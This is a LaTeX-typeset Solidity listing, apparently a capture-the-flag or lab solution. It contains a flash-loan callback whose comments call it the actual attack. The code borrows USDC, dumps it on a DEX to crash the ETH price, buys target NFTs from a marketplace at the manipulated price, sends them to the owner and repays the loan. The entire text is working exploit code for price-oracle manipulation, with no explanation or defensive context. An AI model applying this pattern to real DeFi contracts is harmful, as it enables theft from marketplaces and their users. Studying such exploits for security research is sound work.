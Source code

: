 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
// Flash loan callback function where the actual attack happens
function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata data
) external override returns (bytes32) {

    // Decode the NFT ids to buy
    uint256[] memory nftIds = abi.decode(data, (uint256[]));
    
    // Approve DEX to spend our USDC
    usdcToken.approve(address(dex), amount);
    
    // Dump all USDC to manipulate the price
    dex.usdcToEth(amount);
    
    // Buy all target NFTs at the reduced ETH price and transfer to owner
    for (uint i = 0; i < nftIds.length; i++) {
        uint256 ethPrice = marketplace.getCurrentPriceForNFT(nftIds[i]);
        marketplace.buyNFT{value: ethPrice}(nftIds[i]);
        
        // Transfer the NFT to the owner
        nftContract.transferFrom(address(this), owner, nftIds[i]);
    }
    
    // Convert ETH back to USDC to repay the loan
    uint256 usdcToRepay = amount + fee;
    uint256 usdcBought = dex.ethToUsdc{value: address(this).balance}();
    
    // Check if we have enough USDC to repay
    uint256 currentUsdcBalance = usdcToken.balanceOf(address(this));
    if (currentUsdcBalance < usdcToRepay) {
        revert RepaymentFailed(currentUsdcBalance, usdcToRepay);
    }
    
    // Transfer the tokens to the lender to repay the loan
    usdcToken.transfer(address(lender), usdcToRepay);

    // Transfer any remaining USDC back to the player
    usdcToken.transfer(owner, usdcBought - usdcToRepay);
    
    // Return the required value to indicate successful flash loan execution
    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
\end{lstlisting}
\end{minipage}
\end{document}
